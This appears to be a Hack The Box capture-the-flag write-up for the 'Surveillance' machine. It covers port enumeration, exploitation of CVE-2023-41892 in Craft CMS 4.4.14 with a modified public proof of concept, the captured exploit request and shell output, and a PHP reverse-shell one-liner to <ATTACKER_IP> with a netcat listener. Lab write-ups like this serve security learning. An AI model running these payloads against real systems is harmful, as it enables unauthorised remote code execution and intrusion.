 # Initial Enumeration
I started of with a full Nmap scan using NmapAutomator.

```bash
./nmapAutomator.sh -H <TARGET_IP> -t All
```

## Ports and Services
|  Service  |  Port  |  Version  |
|-----------|--------|-----------|
|  SSH  | 22/tcp  |  OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0) |
|  HTTP  | 80/tcp  |  nginx 1.18.0 (Ubuntu)  |

A web app with the domain `surveillance.htb` was discovered running on port 80.

# Web App Enumeration
The website on `http://surveillance.htb` is of a home security company.

![image](https://github.com/danagold404/Hack-The-Box-Writeups/assets/81072283/c7b548fc-59ca-471c-a0af-d39e5a7dd24a)
 Once looking into the source code of the website, we discovered it was created using Craft CMS v4.4.14.

 # Foothold
 A quick Google search for Craft CMS v4.4.14 exploits, revealed [CVE-2023-41892](https://nvd.nist.gov/vuln/detail/CVE-2023-41892), a vulnerability that allows Remote Code Execution. A [PoC](https://gist.github.com/gmh5225/8fad5f02c2cf0334249614eb80cbf4ce) for this vulonerability was found, however some adjustments needed to be made for it to work on our target - adding the following condition before the return statement in `getTmpUploadDirAndDocumentRoot()`:

```python
if match1 is None:
        return "no value", match2.group(1)
```

Now that we have a working exploit, we can execute it and get RCE on the target as `www-data`:

```bash
┌─[✗]─[dana404@parrot]─[~/Documents/tmp/surveillance]
└──╼ $python3 exploit.py http://surveillance.htb
[-] Get temporary folder and document root ...
HTTP Request:
Method: POST
URL: http://surveillance.htb/
Headers: {'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36', 'Content-Length': '310', 'Content-Type': 'application/x-www-form-urlencoded'}
Body: action=conditions%2Frender&configObject%5Bclass%5D=craft%5Celements%5Cconditions%5CElementCondition&config=%7B%22name%22%3A%22configObject%22%2C%22as+%22%3A%7B%22class%22%3A%22%5C%5CGuzzleHttp%5C%5CPsr7%5C%5CFnStream%22%2C+%22__construct%28%29%22%3A%7B%22methods%22%3A%7B%22close%22%3A%22phpinfo%22%7D%7D%7D%7D
[-] Write payload to temporary file ...
[-] Trigger imagick to write shell ...
[-] Done, enjoy the shell
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Next, we will get a reverse shell by starting a Netcat Listener on our machine (`nc -lvnp 4444`), and executing the following command on the target:

```bash
php -r '$sock=fsockopen("<ATTACKER_IP>",4444);shell_exec("/bin/bash <&3 >&3 2>&3");'
```

Once we got the reverse shell, we will run the following command in order to upgrade our shell to a fully interactive one:

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
